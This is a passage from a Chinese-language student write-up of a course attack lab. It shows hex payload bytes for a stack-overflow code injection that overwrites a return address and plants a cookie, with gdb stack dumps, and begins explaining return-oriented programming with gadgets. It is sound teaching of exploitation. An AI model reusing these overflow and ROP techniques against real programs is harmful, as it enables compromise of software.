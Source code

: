 ```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00               	
00 00 00 00 00 00 00 00      
00 00 00 00 00 00 00 00                                 
78 dc 61 55 00 00 00 00     /* modify getbuf return adr ->5561dc78 */
35 39 62 39 39 37 66 61    /* cookie放入test栈区 */

```

查看一下栈区 其中0x5561dca用于存放cookie字符串

```
(gdb) x/7gx $rsp
0x5561dc78:     0x685561dca8c7c748      0x000000c3004018fa
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x000000005561dc78
0x5561dca8:     0x6166373939623935
```

## part2 Return-Oriented Programming  

使用了栈随机化和栈不可执行 用于保护程序 

要求利用farm.c生成汇编代码，利用其中多个ret结尾的代码段（称之为gadget），完成与part1的level2和3相同的攻击

#### level2

栈溢出攻击时，需要返回地址指向我们的攻击代码，栈随机化后，攻击代码的位置就不确定了，因此用栈溢出来攻击就失效了。

而程序代码的地址没有随机化，可以利用程序汇编代码的切片进行攻击。

本题提示：**两个gadget即可完成攻击**；只需要从functions between start_farm and mid_farm之中找。

由于farm中没有我们要的cookie或者是touch2的地址，cookie和touch2地址肯定是通过栈区即pop指令进行传递。

逻辑如下：在栈区中只存放返回地址和一些参数，利用gadget实现参数的取用，并ret跳转到下一个gadget或者是其他函数。

==这也是为什么叫做ROP，即利用return和栈区写入地址引导gadget。==
